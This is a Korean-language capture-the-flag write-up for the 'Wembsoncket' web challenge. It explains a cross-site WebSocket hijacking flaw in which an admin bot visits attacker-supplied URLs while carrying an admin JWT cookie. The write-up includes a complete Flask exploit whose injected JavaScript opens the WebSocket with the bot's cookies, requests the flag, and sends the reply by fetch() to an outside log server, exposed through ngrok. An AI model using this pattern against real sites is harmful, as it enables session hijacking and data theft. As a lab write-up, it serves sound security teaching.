

# Wembsoncket

```
WebSockets are relatively new, so they must be secure, right?

https://wembsoncket.chal.cyberjousting.com
```

## Description

문제에서 제공해준 링크를 클릭하면 다음과 같이 봇과 채팅을 할 수 있는 챗봇이 확인됩니다.


이어서 문제에서 제공해준 파일에는 챗봇이 구현된 서버 코드를 확인할 수 있으며, 다음과 같이 메인 페이지(`/`)에 대한 엔드포인트와 웹 소켓 서버 핸들러를 확인할 수 있습니다.



즉, 메인 페이지(`/`) 엔드포인트는 챗봇 템플릿을 반환하고 있으며, 챗봇은 웹 소켓으로 동작하는 것을 알 수 있습니다.

메인 페이지 엔드포인트는 요청과 응답 사이에 미들웨어로 `checkCookie` 함수를 호출하고 있으며,

```jsx
app.get('/', checkCookie, (req, res) => {
  res.sendFile(path.join(__dirname, 'public', 'index.html'));
});
```

이 `checkCookie` 함수는 쿠키 `token` 의 값(JWT)이 없는 경우 랜덤한 uuid를 새로운 JWT를 생성하여 쿠키에 설정하고 있습니다.

✅ `checkCookie` 함수 구현부

```jsx
const JWT_SECRET = fs.readFileSync('secret.txt', 'utf8').trim()
// ... 생략 ...
const checkCookie = (req, res, next) => {
  const token = req.cookies.token;

  // If the user does not have a token, generate a new one
  if (!token) {
    const userId = uuidv4();
    const jwtToken = jwt.sign({ userId }, JWT_SECRET);
    res.cookie('token', jwtToken, {
      httpOnly: true,
      sameSite: 'None',
      secure: true
    });
    return res.redirect('/');
  }

  try {
    // Verify the JWT token and get the userId
    const decoded = jwt.verify(token, JWT_SECRET);
    req.userId = decoded.userId;
    next();
  } catch (error) {
    // If the JWT token is invalid, generate a new one
    const userId = uuidv4();
    const jwtToken = jwt.sign({ userId }, JWT_SECRET);
    res.cookie('token', jwtToken, {
      httpOnly: true,
      sameSite: 'None',
      secure: true
    });
    return res.redirect('/');
  }
};
```

이어서 웹 소켓 핸들러를 자세히 살펴보면 소켓 메시지가 전달될 때 입력한 메시지에 따라 처리가 달라지는 것을 확인할 수 있습니다.

✅ 웹 소켓 핸들러 처리 로직

1. 먼저, 웹 소켓 서버가 연결되면, 쿠키 `token` 을 가져와 변수 `userId` 를 초기화 하고 있습니다.
    
    ```jsx
    const userId = req.headers.cookie ? req.headers.cookie.split('token=')[1] : null;
    ```
    
2. 그 다음 `userId` 가 존재할 경우 비밀 키(`JWT_SECRET`)를 통해 해당 `userId` 값(JWT 토큰)을 디코딩하고 디코딩된 값에서 `userId` 의 값을 변수 `user` 에 초기화하고 있습니다.
    
    ```
    const JWT_SECRET = fs.readFileSync('secret.txt', 'utf8').trim()
    // ... 생략 ...
    if (userId) {
        try {
          const decoded = jwt.verify(userId, JWT_SECRET);
          const user = decoded.userId;
    ```
    
3. 이후 웹 소켓 메시지를 다음과 같이 구분하여 처리하고 있습니다.
    
    ```jsx
    const FLAG = fs.readFileSync('flag.txt', 'utf8').trim()
    // ... 생략 ...
    if (message.message === '/getFlag') {
      if (user === 'admin') {
        sendMsg(ws, `Flag: ${FLAG}`);
      } else {
        sendMsg(ws, 'You are not authorized to get the flag');
      }
    } else {
      if (message.message.startsWith('http://') || message.message.startsWith('https://')) {
        sendMsg(ws, 'Checking URL...');
        const result = await visitUrl(message.message); // have the adminBot visit the URL
        if (result === 'success') {
          sendMsg(ws, `${message.message} is up!`);
        } else {
          sendMsg(ws, `${message.message} returned an error: ${result}`);
        }
      } else {
        sendMsg(ws, 'Please send a URL starting with http:// or https://');
      }
    }
    ```
    
    - `/getFlag` 메시지를 전달할 경우 변수 `user` 의 값이 ‘admin’ 인 경우 플래그를 반환
    - `http://`, `https://` 로 시작하는 URL인 경우 그 값을 `visitUrl` 함수의 인자로 전달하여 호출

즉, 챗봇은 `/getFlag` 와 URL(`https://` 또는 `http://`) 메시지만을 처리하고 있으며, 이 중  `/getFlag` 를 전달할 때 JWT가 담긴 쿠키 `token` 의 값에 `user` 의 값이 ‘admin’인 경우에만 플래그를 반환하고 있습니다.

또한, URL 메시지를 전달할 경우 `visitUrl` 함수에 URL을 전달하여 호출하고 있으며 해당 함수는 아래의 코드로 구현되어있습니다.

✅ `visitUrl` 함수 구현부

```jsx
// Secret key for signing JWT
const JWT_SECRET = fs.readFileSync('secret.txt', 'utf8').trim()

// Admin cookie for authentication
const adminCookie = jwt.sign({ userId: 'admin' }, JWT_SECRET);

// Function to visit a URL using Puppeteer
const visitUrl = async (url) => {
  // console.log('Visiting URL:', url);

  let browser;

  try {
    browser = await puppeteer.launch({
      headless: "new",
      pipe: true,
      dumpio: true,
      args: [
        '--no-sandbox',
        '--disable-gpu',
        '--disable-software-rasterizer',
        '--disable-dev-shm-usage',
        '--disable-setuid-sandbox',
        '--js-flags=--noexpose_wasm,--jitless',
      ]
    });

    // console.log('Opening page');
    const page = await browser.newPage();

    try {
      await page.setUserAgent('puppeteer');
      let cookies = [{
        name: 'token',
        value: adminCookie,
        domain: 'wembsoncket.chal.cyberjousting.com',
        httpOnly: true,
        sameSite: 'None',
        secure: true
      }];
      // console.log('Setting cookies:', cookies);
      await page.setCookie(...cookies);

      let statusCode = null;
      page.on('response', (response) => {
        if (response.url() === url) {
          statusCode = response.status();
        }
      });

      // console.log('Navigating to the URL');
      const response = await page.goto(url, { timeout: 10000, waitUntil: 'networkidle2' });

      if (!statusCode && response) {
        statusCode = response.status();
      }

      // console.log('Waiting for page content');
      await page.waitForSelector('body');

      if (statusCode === 200) {
        return 'success';
      } else if (statusCode) {
        return `Unexpected status code ${statusCode}`;
      } else {
        return 'No status code captured';
      }

    } catch (error) {
      console.error('Error navigating to page:', error.message);
      return `Navigation failed - ${error.message}`;
    } finally {
      // console.log('Closing page');
      await page.close();
    }

  } catch (error) {
    console.error('Error launching browser:', error.message);
    return `Browser launch failed - ${error.message}`;
  } finally {
    if (browser) {
      // console.log('Closing browser');
      await browser.close();
    }
  }
};
```

즉, 전달받은 URL(`url`)을 봇이 브라우저로 방문하는데, 이때 쿠키 `token` 의 값을 JWT로 생성된 토큰(`userId: 'admin'`)으로 설정하고 있습니다.

```jsx
// Admin cookie for authentication
const adminCookie = jwt.sign({ userId: 'admin' }, JWT_SECRET);
// ... 생략 ...
let cookies = [{
  name: 'token',
  value: adminCookie,
  domain: 'wembsoncket.chal.cyberjousting.com',
  httpOnly: true,
  sameSite: 'None',
  secure: true
}];
// console.log('Setting cookies:', cookies);
await page.setCookie(...cookies);
// ... 생략 ...
const response = await page.goto(url, { timeout: 10000, waitUntil: 'networkidle2' });
```

따라서, 플래그는 다음의 과정을 통해 획득할 수 있습니다.

✅ 플래그 획득 과정

1. `/getFlag` 요청을 보내고 응답(플래그)을 수신하는 WebSocket 스크립트를 작성해 서버에 호스팅합니다.
2. 해당 스크립트의 URL을 챗봇에 전송합니다.
3. 챗봇은 `userId: 'admin'` JWT를 쿠키에 담아 해당 URL로 접속합니다.
4. 접속한 페이지에서 웹 소켓 연결 후 `/getFlag` 메시지를 전송합니다.
5. 서버는 admin 권한을 확인하고 플래그를 응답합니다.
6. 페이지는 응답받은 플래그를 외부 서버로 전송합니다.

## Solution

먼저, 봇이 `/getFlag` 를 요청하고 그 응답을 전송하는 스크립트를 `Flask` 프레임워크를 이용해 아래와 같이 구현했습니다.

```python
from flask import Flask, request, Response
from flask_cors import CORS

PORT = 80
TARGET = "wss://wembsoncket.chal.cyberjousting.com/" # 웹 소켓 서버
LOG_SERVER = "http://test.dottak.me" # 이 코드가 동작하는 서버 주소

app = Flask(__name__)
CORS(app)
@app.route('/', methods=['GET'])
def main():
    
    script = f"""
    <script>

    const ws = new WebSocket("{TARGET}");
    
    ws.addEventListener("open", () => {{
        fetch("{LOG_SERVER}/log?tag=event&data=open");
        ws.send("{{\\"message\\": \\"/getFlag\\"}}")
    }});
    
    ws.addEventListener("message", (event) => {{
        fetch("{LOG_SERVER}/log?tag=recv&data=" + event.data);
    }});

    ws.addEventListener("close", (event) => {{
        fetch("{LOG_SERVER}/log?tag=event&data=close("+event.code+", "+event.reason+")");
    }});
    
    ws.addEventListener("error", (error) => {{
        fetch("{LOG_SERVER}/log?tag=event&data=Error: " + error);
    }});

    </script>
    """
    return Response(script)

@app.route('/log', methods=['GET'])
def log():
    tag = request.args.get("tag")
    data = request.args.get("data")
    msg = f"[*] {tag} :: {data}"
    print(msg)
    return msg

app.run(host="0.0.0.0", port=PORT, debug="True")
```

위 코드가 동작하는 서버 주소(`LOG_SERVER`)를 챗봇에게 전달하면 챗봇은 응답받은 자바스크립트를 실행하게 됩니다. 따라서, 위 자바스크립트 코드는 아래의 과정을 통해 플래그를 획득하게 됩니다.

✅ 스크립트 동작 과정

1. 웹 소켓을 연결을 성공적으로 완료했으면, `{"message": "/getFlag"}` 메시지를 전달합니다.
    
    ```jsx
    const ws = new WebSocket("{TARGET}");
    
    ws.addEventListener("open", () => {{
        fetch("{LOG_SERVER}/log?tag=event&data=open");
        ws.send("{{\\"message\\": \\"/getFlag\\"}}")
    }});
    ```
    
2. `{"message": "/getFlag"}` 메시지 요청에 대한 응답을 `LOG_SERVER` 의 주소로 전달합니다.
    
    ```jsx
    ws.addEventListener("message", (event) => {{
        fetch("{LOG_SERVER}/log?tag=recv&data=" + event.data);
    }});
    ```
    

결국 봇은 웹 소켓을 연결하고 `{"message": "/getFlag"}` 메시지를 전달할 때, `{userId: 'admin'}` 정보가 포함된 JWT 토큰을 포함하여 전달하게 됩니다.

이후 서버는 `userId` 가 ‘admin’ 인 것을 확인했으니 플래그를 응답하게 됩니다.

## Exploit

앞서 Flask 프레임워크로 구현된 코드를 실행합니다. 이후 해당 웹 서버로 접속하면 다음과 같이 웹 소켓이 연결된 이후 메시지를 전송하는 것을 확인하실 수 있습니다.


그리고 웹 서버 로그에서는 아래와 같이 로그 정보를 확인하실 수 있습니다.(현재는 `{userId: 'admin}` 이 아니므로 플래그를 확인할 수 없습니다.)


위와 같이 스크립트가 정상 동작하는 것을 확인 했으니 챗봇에 서버 주소를 입력하여 봇이 해당 주소를 접근할 수 있도록 합니다. 

다만 문제 서버(챗봇)는 이유는 잘 모르겠으나 다음과 같이 timeout이 발생합니다. 이에 로컬에서 테스트를 했는데 이때는 봇이 정상적으로 접속되는 것을 확인할 수 있었습니다.


대회 운영 디스코드의 공지 채널을 확인해보니 일부 webhook 사이트들이 방화벽에 의해 차단되었다는 내용이 있었습니다. 제가 사용한 EC2 서버는 방화벽 제한과는 무관해 보였지만, 공지에서 `ngrok` 는 정상 동작한다고 언급되어 있어서 Flask 서버를 `ngrok` 으로 매핑하는 방법을 시도했습니다.


✅ `ngrok` 로 Flask 웹 애플리케이션 서버 매핑

1. `ngrok` 를 외부에서 80포트(`http:`)로 수신받기 위해 기존 Flask 서버 포트(`80`)를 다른 포트(`8080`)으로 변경합니다.
    
    
    
2. 그 다음 아래의 명령어를 통해 로컬에 있는 Flask 서버(`8080` 포트)를 `ngrok` 으로 연결해줍니다.
    
    ```bash
    docker run -it --rm \
      --add-host=host.docker.internal:host-gateway \
      -e NGROK_AUTHTOKEN=your_token \
      ngrok/ngrok http host.docker.internal:8080
    ```
    
3. 그럼 다음과 같이 `ngrok` URL 주소를 확인할 수 있는데 해당 주소를 복사합니다.
    
    
    
4. 이후 Flask 웹 애플리케이션의 `LOG_SERVER` 주소를 앞서 복사한 `ngrok` URL로 변경하고 Flask 웹 애플리케이션을 재시작합니다.
    
    
    

위 과정을 통해 확인한 `ngrok` 의 주소를 다시 챗봇에게 전달하면 다음과 같이 챗봇에서 해당 주소로 접근이 이루어진 것을 확인할 수 있으며, 


Flask 웹 애플리케이션 서버 로그에서는 플래그 정보를 획득할 수 있습니다.

